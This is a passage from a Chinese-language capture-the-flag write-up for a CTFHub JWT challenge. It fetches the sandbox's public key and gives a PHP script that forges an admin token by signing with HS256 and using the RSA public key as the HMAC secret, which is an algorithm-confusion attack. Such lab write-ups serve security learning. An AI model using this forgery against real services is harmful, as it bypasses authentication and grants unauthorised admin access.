 2. 直接下载[firebase\php-jwt](https://github.com/firebase/php-jwt)，可以只保留src的文件夹。

3. 然后下载publickey.pem文件。

    `wget http://challenge-09006cfda4a145e7.sandbox.ctfhub.com:10800/publickey.pem`

4. 然后自己编写php文件，我这里是随便起的名字`a.php`。

    ```php
    <?php
    include "./src/JWT.php";
    use \Firebase\JWT\JWT;
    
    // 这里是网站上的那部分代码
    class JWTHelper {
        public static function encode($payload=array(), $key='', $alg='HS256') {
            return JWT::encode($payload, $key, $alg);
        }
        public static function decode($token, $key, $alg='HS256') {
            try{
                $header = JWTHelper::getHeader($token);
                $algs = array_merge(array($header->alg, $alg));
                return JWT::decode($token, $key, $algs);
            } catch(Exception $e){
                return false;
            }
        }
        public static function getHeader($jwt) {
            $tks = explode('.', $jwt);
            list($headb64, $bodyb64, $cryptob64) = $tks;
            $header = JWT::jsonDecode(JWT::urlsafeB64Decode($headb64));
            return $header;
        }
    }
    
    // 导入public key
    $PUBLIC_KEY = file_get_contents("./publickey.pem");
    
    $payload=array("username"=>"admin", "role"=>"admin");
    $encoder=JWT::encode($payload, $PUBLIC_KEY);
    var_dump($encoder);//输出token值
    
    // 验证是否成功
    if(!empty($encoder) && JWTHelper::decode($encoder, $PUBLIC_KEY) != false)
    {
        $obj = JWTHelper::decode($encoder, $PUBLIC_KEY);
    
        if ($obj->role === 'admin') {
            echo "ok\n";
        }
        else{
            echo "not admin\n";
        }
    }
    else {
        echo "error\n";
    }
    ```

